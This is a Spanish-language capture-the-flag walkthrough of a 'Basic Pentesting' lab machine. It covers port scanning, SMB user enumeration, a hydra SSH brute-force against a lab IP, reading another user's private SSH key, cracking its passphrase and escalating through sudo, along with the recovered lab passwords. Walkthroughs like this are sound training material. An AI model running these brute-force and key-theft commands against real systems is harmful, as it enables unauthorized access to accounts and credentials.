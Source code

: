 # Basic Pentesting
## Initial Scan
```
22/tcp  open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 db:45:cb:be:4a:8b:71:f8:e9:31:42:ae:ff:f8:45:e4 (RSA)
|   256 09:b9:b9:1c:e0:bf:0e:1c:6f:7f:fe:8e:5f:20:1b:ce (ECDSA)
|_  256 a5:68:2b:22:5f:98:4a:62:21:3d:a2:e2:c5:a9:f7:c2 (ED25519)
80/tcp  open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
```
## Enum
### HTTP 
#### Gobusting
```
/development (Status: 301)
```
Dentro encontramos dos archivos distintos
#### Dev.txt
```

2018-04-23: I've been messing with that struts stuff, and it's pretty cool! I think it might be neat
to host that on this server too. Haven't made any real web apps yet, but I have tried that example
you get to show off how it works (and it's the REST version of the example!). Oh, and right now I'm 
using version 2.5.12, because other versions were giving me trouble. -K

2018-04-22: SMB has been configured. -K

2018-04-21: I got Apache set up. Will put in our content later. -J
```
#### J.txt
```
For J:

I've been auditing the contents of /etc/shadow to make sure we don't have any weak credentials,
and I was able to crack your hash really easily. You know our password policy, so please follow
it? Change that password ASAP.

-K
```

### SMB
Es el momento de enumerar SMB :v, para ello usamos enum4linux
```
enum4linux -a IP
```
Y esto nos retorna 2 usuarios
```
S-1-22-1-1000 Unix User\kay (Local User)
S-1-22-1-1001 Unix User\jan (Local User)
```
## Exploit
Bruteforcing time, tenemos dos users y sabemos como usarlos, admas por la nota anterior suponemos que la contraseña de j es común
```
 hydra -L users.txt -p /home/pj/rockyou.txt ssh://10.10.30.137
```
Finalmente la pass es armando

### Privesc

Desde jan podemos movernos lateralmente hacia kay para ello leemos el id_rsa de la carpeta de kay
```
cat /home/kay/.ssh/id_rsa
```
Crackeamos la clave con ssh2john + rockyou y tenemos que es
```
beeswax          (key_rsa)
```
Una vez dentro tenemos una copia de la clave de kay en local , la leemos y gracias a esto podemos ver que como sudo podemos ejecutar cualquier comando siendo kay con nuestra contraseña

Al llegar a /root encontre el siguiente mensaje
```
There are two ways (that I'm aware of) to gain a shell, and two ways to privesc.
```
Veamos si en otra pasada encuentro la otra
